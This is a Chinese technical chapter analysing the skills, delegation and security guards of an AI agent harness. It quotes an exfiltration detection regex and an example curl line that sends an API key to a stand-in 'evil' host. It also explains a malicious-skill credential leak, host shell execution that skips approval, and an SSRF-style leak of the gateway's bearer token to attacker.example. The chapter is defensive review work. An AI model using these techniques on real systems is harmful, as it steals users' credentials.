

# r9a · 能力的组织、扩展与委派 —— 当 harness 开始给自己加装备

> **读者定位**:你有多年后端工程经验(Go / Java 之类),**没读过这个仓库**,
> 也**不熟 LLM provider 生态与 Python 异步生态**。本章不要求你查任何外部资料、不要求你看源码。
> 术语首次出现都会用一句中文锚定。
>
> **溯源约定**:凡关键断言,**锚点单独成行、置于代码块之前**,格式 `路径:行号 @ 863e313`
> ——`863e313` 是本项目固定的研究基线 commit。想核对的读者照行号翻即可。
>
> **本章覆盖** R9A 的 37 个文件 / 38,893 行。底稿(逐文件、逐机制的证据层)见文末 §6。

---

## TL;DR(快读路径)

1. **这一簇回答一个问题:一个 agent 怎么长出新能力,又怎么把活分给别的 agent。**
   四条线——**skills**(把知识做成可安装的包)、**学习闭环**(把用过的经验固化成新 skill)、
   **委派**(生一个子 agent 去干活)、**MoA**(让多个模型各答一遍再合并)。
2. **skills 的核心设计是「三层渐进披露」**:系统提示词里只放**索引**(名字 + ≤60 字描述),
   正文要用才读。实测内置 skill 正文合计 83.7 万字符,索引只有 5,376 字符——**155 倍**的差距,
   这就是它敢内置 71 个 skill 的原因。
3. **学习闭环的存储介质是文件系统,不是数据库。** 一次复盘产出的是
   `~/.hermes/skills/<name>/` 这样一个**目录**,下次会话靠扫描磁盘把它读回来。
   而那张看起来很像大脑的「学习图谱」,**不参与任何决策,是纯可视化**。
4. **委派是本簇里唯一一个把守卫问到位的扩展面。** 子 agent 不能绕过审批,
   深度默认锁死在 1 层,工具集只减不增。相比之下 skills 那条线上有三处守卫被绕开。
5. **贯穿全章的一个形状**:**守卫都在,但守卫的判据是「名单」,而扩展面天然长在名单之外。**
   验证门只认两个工具名、密钥清洗被透传名单短路、安全扫描器不认识那个让代码真正执行的记号。
   这不是四个孤立的 bug,是同一个结构性张力的四次显形。

---

## 1. 从一个场景说起:你装了一个「查天气」的 skill

假设你给 Hermes 装了一个第三方 skill,叫 `weather`。它就是磁盘上的一个目录,
核心是一份 `SKILL.md`——顶部一段 YAML **frontmatter**(前置元数据,写名字、描述、依赖),
下面是给模型看的正文说明。

你问「明天要带伞吗」。接下来发生四件事:

**第一件:模型其实看不见这份 SKILL.md 的正文。** 它在系统提示词里看到的只有一行索引——
名字加一句不超过 60 字的描述。

`agent/skill_utils.py:849 @ 863e313`

```
SKILL_PROMPT_DESC_LIMIT = 60
```

**第二件:模型决定「这个我需要」,于是调工具把正文读进来。** 这一步才付出 token。
所谓**三层渐进披露**就是这个意思:第 0 层索引常驻,第 1 层正文按需,第 2 层附件再按需。

**第三件:正文进来的时候,可能顺手在你机器上跑了几条命令。** 如果这份 SKILL.md 里写了
``!`date +%F` `` 这种记号,而你打开了 `skills.inline_shell` 这个开关,那么这条命令
**会在你的宿主机上执行**,输出替换进正文。这条路**不经过审批闸门**——后面 §3.1 细讲。

**第四件:用完之后,这次使用被记了一笔。** 计数最终决定这个 skill 是被留下、被合并,还是被归档。

这四件事分别对应本章的四个机制。它们看起来是四件事,底下是同一件事:
**把「能力」变成可增减的东西,然后管理这些东西的生老病死。**

---

## 2. 全景



四条线共用一个底座:**磁盘上的 `~/.hermes/`**。skills 存那儿、学习产出存那儿、
用量台账存那儿。这是本簇最重要的一个架构选择,§3.2 会讲它的代价。

---

## 3. 逐机制

### 3.1 skills:能力包,以及三处被绕开的守卫

**场景**:你从一个 skill 市场装了个包。它进到你机器上,然后被读进模型的上下文。
这条链上应该有几道检查——来源可不可信、内容有没有危险、要不要问你一句。**三道都有,三道都有缺口。**

**缺口一:内联 shell 不问审批。** 这个仓库有一套完整的审批体系,模型想跑危险命令要先问用户。
但 SKILL.md 里的 ``!`cmd` `` 记号走的是另一条路:

`agent/skill_commands.py:290 @ 863e313`

```
    if skills_cfg.get("inline_shell", False):
        timeout = int(skills_cfg.get("inline_shell_timeout", 10) or 10)
        content = _expand_inline_shell(content, skill_dir, timeout)
```

展开逻辑最终就是一次裸的子进程调用:

`agent/skill_preprocessing.py:73 @ 863e313`

```
        completed = subprocess.run(
            ["bash", "-c", command],
            cwd=str(cwd) if cwd else None,
            capture_output=True,
            text=True, encoding='utf-8', errors='replace',
            timeout=max(1, int(timeout)),
            check=False,
            stdin=subprocess.DEVNULL,
            **_popen_kwargs,
        )
```

**这一条不是 bug,文档写明了。** 官方文档原话:

`website/docs/developer-guide/creating-skills.md:312 @ 863e313`

> This is **off by default** — any snippet in a SKILL.md runs on the host without approval, so only enable it for skill sources you trust:

默认关闭 ✓、不经审批 ✓,**逐字为真**。作者的取舍也讲得通:
命令来自**你自己装的文件**,不是模型编出来的;审批闸门防的是「模型被诱导」,
而你装的 shell 脚本本来也不该每次执行都弹窗。

**缺口二:安全扫描器不认识这个记号。** 仓库里有一张 123 条模式的威胁表,专扫 SKILL.md 正文:

`tools/skills_guard.py:101 @ 863e313`

```
THREAT_PATTERNS = [
    # ── Exfiltration: shell commands leaking secrets ──
    (r'curl\s+[^\n]*\$\{?\w*(KEY|TOKEN|SECRET|PASSWORD|CREDENTIAL|API)',
     "env_exfil_curl", "critical", "exfiltration",
```

这 123 条里**没有一条**涉及 ``!` `` 这个记号。后果需要说准,不能夸大:
一条 ``!`curl http://evil/?k=$API_KEY` `` **仍然会**被上面那条模式抓到——抓的是括号里的文本。
真正的问题是另一层:**扫描器分不清「文档里写了一条命令」和「这条命令会被执行」**。
于是两个方向都会错——正文不匹配那 123 条的命令执行时无人过问;
而一份只是把危险命令当例子写进文档的 skill 会被误报成 critical。

**缺口三:密钥说好不给模型看,实际给了。** 同一份文档,同一个小节,前后两句自相矛盾。前一句:

`website/docs/developer-guide/creating-skills.md:178 @ 863e313`

> The user can skip setup and keep loading the skill. Hermes never exposes the raw secret value to the model. Gateway and messaging sessions show local setup guidance instead of collecting secrets in-band.

隔一个空行,同一小节的提示框:

`website/docs/developer-guide/creating-skills.md:181 @ 863e313`

> When your skill is loaded, any declared `required_environment_variables` that are set are **automatically passed through** to `execute_code` and `terminal` sandboxes — including remote backends like Docker and Modal. Your skill's scripts can access `$TENOR_API_KEY` (or `os.environ["TENOR_API_KEY"]` in Python) without the user needing to configure anything extra.

`execute_code` 是**模型驱动**的工具,它的输出回到模型的上下文。所以模型只要写一句
`print(os.environ["TENOR_API_KEY"])`,原始密钥就到手了。**第一句的 never 不成立。**

代码站在第二句这边,而且绕过的正是那道通用清洗:

`tools/code_execution_tool.py:252 @ 863e313`

```
    _dropped_hermes = []
    for k, v in source_env.items():
        if is_passthrough(k):
            resolved = resolve_passthrough_value(k, v)
            if resolved is not None:
                scrubbed[k] = resolved
            continue
        if any(s in k.upper() for s in _SECRET_SUBSTRINGS):
            continue
```

命中透传名单就 `continue`,**根本走不到**下面那行密钥子串检查。

**这里有一段真实事故,值得讲成故事。** 曾经有人发现:写一个恶意 skill,
在 frontmatter 里声明 `ANTHROPIC_TOKEN` 是自己「需要的环境变量」,
Hermes 就会把它透传进沙箱子进程——**于是这个 skill 拿到了用户的模型 API 凭据**。
这个漏洞有正式编号,而修法写在代码注释里:

`tools/env_passthrough.py:54 @ 863e313`

```
    Skill-declared ``required_environment_variables`` frontmatter must
    not be able to override this list — that was the bypass in
    GHSA-rhgp-j443-p4rf where a malicious skill registered
    ``ANTHROPIC_TOKEN`` / ``OPENAI_API_KEY`` as passthrough and received
    the credential in the ``execute_code`` child process, defeating the
    sandbox's scrubbing guarantee.

    Non-Hermes API keys (TENOR_API_KEY, NOTION_TOKEN, etc.) are NOT
    in the blocklist and remain legitimately registerable — skills that
    wrap third-party APIs still work.
```

修法是加一张**Hermes 自家凭据的黑名单**,并且导不进黑名单就一律拒绝(fail closed)。
但第三方密钥**有意**留在外面——不然包装第三方 API 的 skill 就没法用了。
所以代码的真实语义是「不把 **Hermes 自家的** 凭据给模型」,
而文档写的是「never exposes **the raw secret value**」。**差的就是那个限定词,
而这个限定词恰恰是整条防线的全部边界。**

**skills 这条线上最漂亮的一处设计**,是索引在系统提示词里的**摆放位置**。
这里要先锚一个词:**prompt cache(提示词缓存)**——模型服务商会把你反复发送的
提示词前缀缓存起来按折扣计费,但前缀**一旦有一个字符变了,从变化处往后全部作废**。
skill 索引是会变的(装一个、删一个就变),所以它绝不能放在稳定内容前面:

`agent/system_prompt.py:505 @ 863e313`

```
    # that picked up a skill change would bust the cached prefix from the index
    # down, taking the whole scaffold with it. Render it at the FRONT of the
    # volatile band instead, ahead of the turn-varying memory/timestamp tail:
    # on an implicit longest-prefix backend an unchanged index still falls
    # inside the reused prefix, and a changed one only re-prefills from here on.
```

**把易变内容按「变化频率」排序,最稳的放最前**——这是任何要用 prompt cache 的系统都该抄的一条。

### 3.2 学习闭环:把文件系统当数据库

**场景**:你和 agent 折腾了两小时,终于摸清了某个内部系统的部署流程。
会话一结束,这些经验去哪了?

答案是:后台复盘(`background_review`)会把它写成一个 skill 目录,
下次会话扫描磁盘时它就在索引里了。**闭环闭在文件系统上,不在数据库里。**

这个选择有明确的好处:可读、可 diff、可手改、可 git、可跨设备同步。
代价是**没有事务**——`learning_mutations` 单次落盘是原子的(临时文件 + rename),
但读-改-写整体没有锁,并发就是最后写的赢。

**「策展」这个动作值得单独说。** skill 库会越长越大,而作者对「大」的态度写在提示词里:

`agent/curator.py:421 @ 863e313`

```
    "The goal of the skill collection is a LIBRARY OF CLASS-LEVEL "
    "INSTRUCTIONS AND EXPERIENTIAL KNOWLEDGE. A collection of hundreds of "
    "narrow skills where each one captures one session's specific bug is "
    "a FAILURE of the library — not a feature. An agent searching skills "
```

**「几百个各自记录一次具体 bug 的窄 skill 是这个库的失败,不是它的功能」**——
这句话是整个学习闭环的设计纲领:目标不是攒得多,是**归纳出类级别的知识**。
所以 curator 会定期把相似的合并、把没人用的归档。

**一个必须澄清的误解**:这一簇里有个叫 `agent/insights.py` 的文件,名字看着像「洞见」,
很容易被当成学习闭环的一部分。**它不是。** 它是 `/insights` 命令背后的**用量报表**
——token、花费、工具调用、活跃时段——只读会话数据库,不写任何东西。
判据很干脆:该文件对 `curator`、`skills/`、`.usage.json` 这些词**零命中**,
顶层依赖只有 `json` / `sqlite3` / `time` / `collections` / `datetime` / `typing`
加一个计价模块。

**另一个更值得记的澄清:那张「学习图谱」不参与决策。**
`learning_graph` 把 skill 和记忆卡片连成一张图,渲染给 CLI、终端 UI 和桌面端看。
读起来很像一个「agent 的知识网络」,但它**每次调用现扫磁盘、不存任何地方、没有任何消费方
把它喂回模型**。它是给人看的可视化。真正影响下一轮的是另一条链——
复盘直接写文件,文件被系统提示词的索引扫到。**知道这一点很重要**,
否则你会以为这个 harness 有一套图检索增强,而它没有。

### 3.3 委派:本簇唯一一个守卫问到位的扩展面

**场景**:任务太大,模型说「我分三个子任务并行做」。于是它调 `delegate_task`。

**第一个反直觉:模型无权决定同步还是异步。** 工具 schema 里有个 `background` 参数,
但它是废弃品:

`run_agent.py:7657 @ 863e313`

```
        # The schema-level `background` param is intentionally ignored here.
        _is_subagent = getattr(self, "_delegate_depth", 0) > 0
```

工具描述自己也这么标:

`tools/delegate_tool.py:3857 @ 863e313`

```
                    "DEPRECATED / IGNORED. Top-level single and batch "
```

规则是:**顶层模型发起的一律后台,子 agent 发起的一律同步**。
后台意味着调用方拿到的不是一个可等待的句柄,而是一个 id + 一句「别等、别轮询」,
结果稍后**作为一个新回合**自己回来。为什么必须这样?还是 prompt cache——
结果若要塞回历史消息里,就得改已经发出去的消息,缓存全废。

**第二个反直觉:深度默认只有一层。**

`tools/delegate_tool.py:127 @ 863e313`

```
MAX_DEPTH = 1  # flat by default: parent (0) -> child (1); grandchild rejected unless max_spawn_depth raised.
```

父生子可以,子生孙默认被拒。要放开得显式改配置。

**第三点,也是本章的转折:审批不能被绕过。**
子 agent 会不会成为「绕开用户审批的后门」?这是我读这一簇时最想验的问题。答案是不会:

`tools/delegate_tool.py:106 @ 863e313`

```
    Config key: delegation.subagent_auto_approve (bool, default False).
```

这个「子 agent 自动放行」的开关**默认关闭**;关着的时候装的是一个**拒绝式**回调,
它的提示文案是「要允许请把 `delegation.subagent_auto_approve` 设成 true」——
**默认答案是拒绝,比父 agent 还严。**

**为什么这一条值得专门写进成品章**:本章前面连着讲了三处「守卫在、但有一条路不问它」。
如果不把**问了守卫的那一个**也写出来,你会以为这个代码库到处漏。
事实恰恰相反——**最像会漏的那一个(把活整个交给另一个 agent)是做得最严的。**

### 3.4 MoA:多个模型各答一遍,以及一套跑不到的代码

**MoA(Mixture-of-Agents,多智能体混合)**是一种推理编排:同一个问题发给多个模型
(称「参谋」),再让一个模型(称「聚合者」)把这些答案合成最终结果。花 N 倍 token 换质量。

这里最要紧的工程判断是:**参谋会不会各自调一遍工具,导致副作用被执行 N 次?**
答案是不会——参谋调用时根本不传工具,输出只取文本,参谋的产出也从不进消息历史。

代价那一侧则很直白:**没有任何预算闸门。** 只有并发上限、输出长度上限、扇出节奏三个
「少花点」的旋钮,没有一处把累计花费和某个阈值比较。

还有一个结构性发现值得记:**代码里有两套 MoA,语义相反**——一套里聚合者就是行动模型,
另一套里聚合者只合成上下文、主模型才行动。**第二套在生产上不可达**:
触发它需要的配置项全仓只被读、从不被赋值。它却还养着三个测试文件。

### 3.5 研究管线:它不是产品功能

`batch_runner.py`、`trajectory_compressor.py`、`mini_swe_runner.py` 这几个仓库根文件很容易
被当成「批处理能力」写进蓝图。**它们不是给用户的功能,是 NousResearch 自己造训练数据的工厂。**
判据包括:三个命令行入口里没有它们;压缩器唯一的非测试调用方写死了几个内部数据集;
用训练侧分词器精确数 token,目标长度正好是训练序列长度档。

这一簇里我自己动手跑出来一条缺陷,值得当例子:`--list_distributions` 这个被文档、
docstring、测试文案三处主推的命令,**一次也不可能成功**。原因是同名遮蔽——
模块顶部导入了一个叫 `list_distributions` 的**函数**:

`batch_runner.py:51 @ 863e313`

```
    list_distributions, 
```

而 `main` 的形参里有一个同名的**布尔值**:

`batch_runner.py:1168 @ 863e313`

```
    list_distributions: bool = False,
```

于是分支体里那句调用,调的是那个布尔:

`batch_runner.py:1237 @ 863e313`

```
        all_dists = list_distributions()
```

实跑得到 `TypeError: 'bool' object is not callable`。**它先打印出表头再崩**——
只看前两行输出的人会以为它在正常工作。这是本章反复出现的一个主题的又一次显形:
**部分正确的输出比完全没有输出更能掩盖故障。**

### 3.6 出网约束:一个名字很唬人、边界很窄的东西

`hermes egress` 听起来像「所有出站流量都受管控」。**它不是。**
它是一条**默认关闭、只对 Docker 沙箱生效**的凭据隔离通道——
保护的是「真 API key 不落进沙箱」,不是「沙箱出不了网」。
宿主机自身的全部出站、Docker 以外的所有后端、沙箱里不读代理环境变量的裸 socket,
统统不在它的射程内。而 `iron_proxy` 这个模块本身**不含代理逻辑**,
它是第三方 Go 二进制的下载器 + 配置生成器 + 进程管家。

---

## 4. 可迁移的设计原则

如果你要造自己的 harness,这一簇有五条值得直接抄:

1. **渐进披露,而不是全量注入。** 索引常驻、正文按需。155 倍的差距决定了你能内置多少能力。
   索引里那 60 字是**路由信号**,不是简介——写描述时要想「模型凭这句话决定要不要读」。
2. **按变化频率给提示词分层。** 最稳的放最前,易变的放最后。这一条对任何用 prompt cache
   的系统都是真金白银。
3. **文件系统可以当学习产出的存储。** 可读、可 diff、可手改、可同步,代价是没有事务。
   如果你的写入是「偶尔、单写者」,这个交易划算;如果是「频繁、并发」,不划算。
4. **委派的默认值应该是「扁平 + 拒绝」。** 深度默认 1、子 agent 审批默认拒绝、
   工具集只减不增。放开每一条都应该是显式的、写进配置的决定。
5. **最重要的一条:不要用名单当安全判据。**
   下一节专门讲。

---

## 5. 地图与代码的出入,以及一个结构性结论

### 5.1 本簇的 ▲(文档与代码矛盾)

| # | 文档 | 文档怎么说 | 代码是什么 |
|---|---|---|---|
| ▲1 | `AGENTS.md:328` | `max_iterations` 默认 **500** | `run_agent.py:446` 是 **90** |
| ▲2 | `AGENTS.md:1005` | `max_spawn_depth` 默认 **2** | 配置默认与常量都是 **1** |
| ▲3 | `AGENTS.md:986-989` | 父 agent **默认等**孩子 | 顶层**一律后台**,那个参数已废弃 |
| ▲4 | `AGENTS.md:971-974` | 列出 30 个 toolset 键 | 其中 `messaging` / `moa` / `rl` **不存在** |
| ▲5 | `creating-skills.md:178` | 密钥 **never** 给模型 | 第三方密钥经沙箱透传可被模型读到 |

**▲1 值得单独说,因为它示范了文档腐烂最危险的形态。** 那一段是一份 `__init__` 签名清单,
15 个带默认值的参数里,**14 个与代码完全一致**,只有 `max_iterations` 从 90 漂成了 500。
而且注释文字几乎逐字相同——说明文档当年是从代码抄的,**抄完数字漂了,注释没漂**。

**14 对 1 才是问题所在。** 一个读者核对前三个参数发现都对,就不会再核第六个。
**高准确率的文档让其中唯一的错误更难被发现,而不是更容易。**

### 5.2 一份没有腐烂的文档

为了让上面那张表可比,也得记下反例。面向插件作者的子代理生命周期 API 文档,
主线逐条核对了它 6 项可证伪的断言——9 个状态名、结果 32k 上限、保留一小时、
伪造句柄的返回值、重启后不复活、回合外启动 fail closed——**全部成立**。

它为什么没烂?它是**带版本号的契约文档**(代码里写着 `PUBLIC_CONTRACT_VERSION = 1`)。
有版本号的契约比散文式的架构介绍难腐烂得多。

### 5.3 结构性结论:守卫都在,判据是名单

把本章的缺陷排在一起看,它们不是四个孤立的 bug:

| 守卫 | 判据是什么 | 谁从旁边走过去了 |
|---|---|---|
| 审批闸门 | 「这是一次工具调用吗」 | SKILL.md 的内联 shell,直接开子进程 |
| 沙箱密钥清洗 | 「变量名含密钥子串吗」 | 透传名单命中即跳过,走不到清洗 |
| 安全扫描器 | 123 条正文模式 | 让文本变成执行的那个记号不在表里 |
| 验证门 | `frozenset({"write_file", "patch"})` | `sed -i`、`execute_code`、MCP 文件工具 |
| SSRF 守卫 | 「调用方走没走那个封装」 | 有一处从远端 JSON 取 URL 的调用没走 |

最后一行的极端版本值得完整讲,它是本轮最重的一条缺陷。网关判断「这个媒体 URL
是不是我们自己的、需要带上凭据去取」时,用的是一次子串包含:

`gateway/relay/media.py:92 @ 863e313`

```
    def is_relay_media_url(self, url: str) -> bool:
        """Is ``url`` a connector re-host reference (needs our bearer to GET)?"""
        return "/relay/media/" in (url or "")
```

这个布尔直接决定要不要挂上网关的访问令牌:

`gateway/relay/media.py:164 @ 863e313`

```
        needs_auth = self.is_relay_media_url(url)
        if needs_auth and not self.enabled:
            return None
        headers = {}
        if needs_auth:
            headers["Authorization"] = f"Bearer {self._bearer()}"

        def _get() -> Optional[str]:
            req = urllib.request.Request(url, headers=headers)
```

而 URL 来自**入站事件**,不是本地配置:

`gateway/relay/adapter.py:461 @ 863e313`

```
            urls = list(getattr(event, "media_urls", None) or [])
            if not urls:
                return
            client = self._get_media_client()
            localized: list[str] = []
            for url in urls:
                if not isinstance(url, str) or not url:
                    continue
```

**所以一条带 `https://attacker.example/relay/media/x` 的入站事件,
会让网关把自己的令牌送到 attacker.example。** 准确的威胁边界是:
任何能向该网关投递入站事件媒体 URL 的一方——比「已经拿到本地权限」低得多,
但也不是「任意互联网用户」。

**最讽刺的是作者本意是对的**,就写在同一个函数的说明里:

`gateway/relay/adapter.py:449 @ 863e313`

> The wire's ``media_urls`` name connector re-hosts
> (``{connector}/relay/media/{id}``, per-gateway-bearer-authenticated) or

期望的形状是 `{connector}/relay/media/{id}`——**带主机前缀的**。实现退化成了一次 `in`。

**这就是那条可迁移原则的完整版**:

> **名单式判据在一个「扩展面本来就会长出新形状」的系统里必然会漏。**
> 不是因为写名单的人不小心,而是因为**名单描述的是「我知道的那些情况」,
> 而扩展面存在的意义恰恰是产生我还不知道的情况。**
> 能守住的判据是**结构性**的——不是「这个工具名在不在表里」,而是「这次操作有没有改文件」;
> 不是「URL 里有没有这个子串」,而是「这个 host 是不是我配置的那个」。

---

## 6. 延伸

本章的每一条断言都能在底稿里找到完整取证(逐文件、逐机制,含未写进本章的取舍分析):

| 底稿 | 覆盖 |
|---|---|
| `notes/r9a-01-scope-and-split.md` | 范围核定、R9 四片拆分、剩余轮次重新判定 |
| `notes/r9a-90-rulings.md` | 文档-代码定案(主线独立取证 + 子代理条目复核) |
| `notes/r9a-raw-skills-hub.md` | skills 中枢、安装与工具面 |
| `notes/r9a-raw-skills-sync.md` | skills 分发、同步协议、来源与用量 |
| `notes/r9a-raw-skills-agent-side.md` | skills 在 agent 进程内的注入路径与 token 预算 |
| `notes/r9a-raw-curator.md` | 学习闭环 · 策展侧 |
| `notes/r9a-raw-learning-graph.md` | 学习闭环 · 图谱与后台复盘 |
| `notes/r9a-raw-verification.md` | 验证闭环(门在哪、哪条路不问它) |
| `notes/r9a-raw-delegate-tool.md` | 委派主干、隔离边界、审批排查 |
| `notes/r9a-raw-async-delegation.md` | 异步委派、生命周期状态机、背压 |
| `notes/r9a-raw-moa.md` | MoA 两套实现、成本、工具副作用判定 |
| `notes/r9a-raw-research-pipeline.md` | 研究管线定位、批处理、轨迹压缩 |
| `notes/r9a-raw-egress.md` | 出站流量约束的真实边界 |
| `notes/r9a-h-r8d-b-kanban-db.md` | 异质区间重判层(移交项结清) |
| `notes/r9a-h-r8d-c-env-loader-lock.md` | 全局变量锁纪律与并发后果实测 |
| `notes/r9a-h-r8d-ef-surveys.md` | 带凭据出网普查 + 测试接缝普查 |
